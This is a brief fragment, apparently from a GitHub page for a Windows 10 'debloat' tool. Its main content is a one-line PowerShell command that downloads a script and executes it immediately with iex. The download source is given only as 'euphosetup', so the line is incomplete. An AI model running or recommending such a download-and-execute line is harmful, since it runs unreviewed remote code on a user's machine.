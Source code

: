 #Public-Viewing

Win10-Debloat + Tools & Tweaks
Debloat: iex (New-Object System.Net.WebClient).DownloadString("euphosetup")
